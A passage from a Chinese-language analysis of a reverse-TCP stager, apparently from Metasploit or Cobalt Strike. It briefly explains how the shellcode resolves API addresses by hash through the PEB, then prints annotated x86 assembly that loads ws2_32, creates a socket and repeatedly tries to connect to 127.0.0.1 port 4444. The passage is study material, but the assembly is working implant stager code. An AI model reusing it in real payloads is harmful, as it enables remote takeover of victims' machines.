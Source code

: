 就是通过特征码找到对应dll 和函数的地址（原理就是FS—&gt;TEB—&gt;PEB—&gt;LDR—&gt;遍历DLL模块获取DLL名称—&gt;遍历对应DLL模块里面的函数名称导出表拿到符合条件的函数名的导出顺序—&gt;依靠顺序从导出函数序列表拿到导出函数序号—&gt;依靠序号从导出函数地址表拿到对应函数的绝对地址），这部分我们不再做详细分析，感兴趣可以参考笔者的[另一文章](https://forum.butian.net/share/2017)中的cs stager分析，里面详细看了这一过程；

#### 第二部分是发起socket连接的;

实现汇编代码如下：

```php
reverse\_tcp:  
  push 0x00003233        ; Push the bytes 'ws2\_32',0,0 onto the stack.  
  push 0x5F327377        ; ...  
  push esp               ; Push a pointer to the "ws2\_32" string on the stack.  
  push 0x0726774C        ; hash( "kernel32.dll", "LoadLibraryA" )  
  call ebp               ; LoadLibraryA( "ws2\_32" )  
    
  mov eax, 0x0190        ; EAX = sizeof( struct WSAData )  
  sub esp, eax           ; alloc some space for the WSAData structure  
  push esp               ; push a pointer to this stuct  
  push eax               ; push the wVersionRequested parameter  
  push 0x006B8029        ; hash( "ws2\_32.dll", "WSAStartup" )  
  call ebp               ; WSAStartup( 0x0190, &WSAData );  
    
  set\_address:  
  push byte 0x05         ; retry counter  
  push 0x0100007F        ; host 127.0.0.1  
  push 0x5C110002        ; family AF\_INET and port 4444  
  mov esi, esp           ; save pointer to sockaddr struct  
    
  push eax               ; if we succeed, eax wil be zero, push zero for the flags param.  
  push eax               ; push null for reserved parameter  
  push eax               ; we do not specify a WSAPROTOCOL\_INFO structure  
  push eax               ; we do not specify a protocol  
  inc eax                ;  
  push eax               ; push SOCK\_STREAM  
  inc eax                ;  
  push eax               ; push AF\_INET  
  push 0xE0DF0FEA        ; hash( "ws2\_32.dll", "WSASocketA" )  
  call ebp               ; WSASocketA( AF\_INET, SOCK\_STREAM, 0, 0, 0, 0 );  
  xchg edi, eax          ; save the socket for later, don't care about the value of eax after this  
​  
​  
    
try\_connect:  
  push byte 16           ; length of the sockaddr struct  
  push esi               ; pointer to the sockaddr struct  
  push edi               ; the socket  
  push 0x6174A599        ; hash( "ws2\_32.dll", "connect" )  
  call ebp               ; connect( s, &sockaddr, 16 );  
​  
  test eax,eax           ; non-zero means a failure  
  jz short connected  
​  
handle\_failure:  
  dec dword \[esi+8\]  
  jnz short try\_connect  
​  
failure:  
  push 0x56A2B5F0        ; hardcoded to exitprocess for size  
  call ebp  
​  
connected:
```
